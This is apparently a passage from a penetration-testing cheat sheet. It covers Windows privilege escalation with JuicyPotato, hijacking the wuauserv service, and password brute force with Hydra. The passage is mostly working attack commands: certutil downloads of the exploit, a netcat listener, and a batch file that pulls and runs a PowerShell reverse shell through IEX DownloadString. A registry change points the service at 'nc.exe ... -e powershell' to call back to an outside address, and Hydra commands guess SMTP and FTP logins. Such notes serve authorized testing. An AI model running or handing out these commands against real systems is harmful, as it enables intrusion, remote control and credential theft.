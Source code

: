 ohpe/juicy-potato **[1]**, **[2]**:

```
Cmd > certutil -urlcache -split -f http://127.0.0.1/[3] C:\Windows\System32\spool\drivers\color\j.exe
Cmd > certutil -urlcache -split -f http://127.0.0.1/rev.bat C:\Windows\System32\spool\drivers\color\rev.bat
root@kali:$ nc -lvnp 443
Cmd > j.exe -l 443 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

```bat
;= rem rev.bat

cmd /c powershell -NoP IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/[4]')
```

1. [github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
2. [ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)
3. [github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)
4. [github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


#### wuauserv

```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\services\* | format-list * | findstr /i "snovvcrash Users Path ChildName"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
PS > reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.16 1337 -e powershell" /f
PS > Start-Service wuauserv
...get reverse shell...
PS > Get-Service wuauserv
PS > Stop-Service wuauserv
```




## Auth Brute Force



### Hydra

```
root@kali:$ hydra -V -t 20 -f -I -L logins.lst -P /usr/share/john/password.lst 127.0.0.1 -s 8888 smtp
root@kali:$ hydra -V -t 20 -f -I -l admin -P /usr/share/john/password.lst 127.0.0.1 -s 8888 ftp
```



### Patator


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)